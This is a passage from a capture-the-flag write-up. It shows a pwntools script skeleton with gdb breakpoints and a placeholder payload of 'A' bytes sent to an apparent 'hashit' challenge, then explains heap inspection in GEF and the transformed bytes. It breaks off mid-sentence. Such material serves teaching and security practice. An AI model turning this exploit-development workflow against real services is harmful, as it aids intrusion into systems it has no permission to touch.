 ```python
#0x555555555100 --> main()
#0x555555555151 --> malloc
#0x555555555131 --> first read 4 bytes

gdbscript = '''
handle SIGALRM ignore
b *0x555555555131
b *0x555555555151
b *0x555555555209
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

size = 32
payload = b'A' * size

size = len(payload)
with start() as p:
    if args.REMOTE:
        p.recvuntil(b'Ticket please:')
        p.sendline(os.environ.get('HASHIT_TICKET').encode())
    p.send(p32(size, endian='big'))
    p.send(payload)
    p.interactive()
```

Running this script with `GDB NOASLR` arguments inside a `tmux` terminal gives us an interactive shell as well as a gdb instance inside tmux. That way we can watch what happens to the program as we provide inputs. The defined `gdbscript` is also provided to `gdb`, which does a few things for us on each run:

- `handle SIGALRM ignore` makes it so the `alarm()` call won't terminate the program
- the breakpoints are set so we can see the first 4 bytes before and after the byteshifthing,
- and look at the `malloc()` -ed segment before and after the hashing takes place.

Using `gdb` we can verify that we are in fact reading as much data as we want, and we can also check what happens to the data we send in. We can take a look at the heap chunks via the `heap chunks` gdb command.
_Note: This command by default is not available in gdb, but using extensions such as [GEF](https://gef.readthedocs.io/en/master/) is highly recommended, and provides extra functionality._
After finding the correct chunk, we can view its content with the following command: `x/6gx 0x55555555a2b0`.

```
0x55555555a2b0: 0x2858803b2858803b      0x2858803b2858803b
0x55555555a2c0: 0x4141414141414141      0x4141414141414141
0x55555555a2d0: 0x0000000000000000      0x0000000000000041
```

As we can see, half of our A's are gone, and have turned into some other bytes. Upon closer inspection we can verify, that the following bytes are repeating: `0x3b 0x80 0x58 0x28`. A quick verification shows, that:
